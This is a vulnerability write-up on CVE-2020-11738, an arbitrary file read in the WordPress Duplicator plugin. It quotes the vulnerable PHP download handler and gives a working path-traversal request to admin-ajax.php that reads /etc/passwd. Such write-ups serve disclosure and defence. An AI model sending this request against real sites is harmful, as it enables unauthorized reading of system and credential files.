 # WordPress Duplicator duplicator.php Arbitrary file reading vulnerability CVE-2020-11738

## Vulnerability Description

The WordPress Duplicator plug-in has caused arbitrary file reading vulnerability because it does not verify file downloads.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Duplicator <= v1.3.26</span>

## Plugin Name

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Duplicator</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip</span>

## Vulnerability reappears

First, check the registered action interface without authorization `wp-content/plugins/duplicator/ctrls/class.web.services.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638523625856-1b37f8fa-0988-426e-a486-ce3aa4379097.png)

Here the corresponding function of `wp_ajax_nopriv_duplicator_download` is named duplicator_download

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638523732618-c27820f7-da8f-42e7-9675-dcdf6dcbd156.png)

```php
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

You can see that the parameter file is accepted here, spliced ​​into $filepath, you can know through debugging

DUPLICATOR_SSDIR_PATH is the wp-snapshots directory, the file is controllable and has no filtering, resulting in arbitrary file reading

```php
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638523863362-cd010b2b-66df-4243-b4e8-5834b6a9ce11.png)